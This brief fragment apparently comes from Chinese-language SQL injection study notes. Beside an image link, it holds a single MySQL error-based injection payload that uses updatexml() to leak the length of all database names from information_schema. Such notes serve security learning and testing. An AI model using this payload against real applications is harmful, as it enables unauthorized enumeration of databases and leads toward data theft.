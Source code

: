 ![image-20250222155248364](static/image/image-20250222155248364.png)

```mysql
# 获取输出所有数据库名的字符串长度
updatexml(1,concat(0x7e,(SELECT(LENGTH(group_concat(schema_name)))FROM(information_schema.schemata)),0x7e),1)
```
